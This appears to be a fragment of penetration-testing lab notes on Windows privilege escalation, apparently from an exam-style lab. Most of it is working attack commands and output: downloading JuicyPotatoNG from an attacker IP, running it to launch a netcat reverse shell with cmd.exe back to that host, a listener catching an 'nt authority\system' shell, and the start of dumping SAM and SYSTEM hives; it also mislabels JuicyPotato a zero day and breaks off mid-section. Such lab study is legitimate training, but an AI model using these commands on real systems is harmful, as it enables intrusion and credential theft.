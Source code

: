 `SeImpersonatePrivilege` privilege is true so we can use zero day exploit to do privilege escaltion [ZERODAY] JuicyPotato

```
ASTUTEC:\test> iwr -uri http://192.168.45.244/JuicyPotatoNG.exe -o potato.exe
ASTUTEC:\test> dir


    Directory: C:\test


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----         1/24/2025   5:27 AM         153600 potato.exe                                                           


ASTUTEC:\test> 
```


### priv esc 2
```sh

ASTUTEC:\test> ./potato.exe -t * -p c:\test\nc.exe -a "192.168.45.244 4445 -e c:\windows\system32\cmd.exe"
```

```sh
(Fri Jan-1 8:29:39am)-(CPU 8.1%:0:Net 4)-(kali:~/Desktop/shared_folder/tools/reverse_shell)-(112K:3)
> nc -nvlp 4445
listening on [any] 4445 ...
connect to [192.168.45.244] from (UNKNOWN) [192.168.221.247] 49752
Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

C:\>whoami
whoami
nt authority\system

C:\>hostname
hostname
WEB02```

# manual cracking SAM and System File

```
whoami /priv
```

if `SeBackupPrivilege` is enabled 
```
Export sam & system
